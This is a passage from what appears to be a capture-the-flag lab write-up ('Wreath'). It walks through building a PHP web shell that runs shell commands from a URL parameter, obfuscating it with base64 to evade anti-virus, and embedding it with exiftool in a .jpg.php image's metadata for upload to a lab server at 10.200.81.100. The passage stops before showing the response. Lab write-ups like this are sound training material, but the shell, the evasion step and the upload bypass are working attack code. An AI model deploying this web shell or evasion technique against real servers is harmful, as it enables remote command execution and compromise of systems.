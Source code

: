 The payload:

```
<?php
  $cmd = $_GET["wreath"];
  if(isset($cmd)){
    echo "<pre>" . shell_exec($cmd) . "</pre>";
  }
  die();
?>
```

This payload creates a parameter to inject commands into the underlying
host machine, which is a PC. The commands are executed by the
shell_exec() function. It is known that this machine will have an
Anti-Virus, so to be slightly less obvious I will obfuscate the payload.

The obfuscated payload:

```
<?php $k0=$\_GET\[base64_decode('d3JlYXRo')\];if(isset($k0)){echo base64_decode('PHByZT4=').shell_exec($k0).base64_decode('PC9wcmU+');}die();?>
```

Now, to inject this payload into an image file:


`exiftool -Comment="\<?php \\$k0=\\$\_GET [base64_decode('d3JlYXRo')\];if(isset(\\$k0)){echo base64_decode('PHByZT4=').shell_exec(\\$k0).base64_decode('PC9wcmU+');}die();?\>" cat-L15t3Nr.jpg.php -v`

The image file looks the same, except now there is a malicious comment
in the meta data that will run when its executed.

![alt-37](/assets/img/wreath-writeup/meta-data.png)

Now, it's time to upload the malicious image file. The file uploads
successfully.

After navigating to the uploaded file at
http://10.200.81.100/resources/uploads/cat-L15t3Nr.jpg.php?wreath=systeminfo

I get the following response:
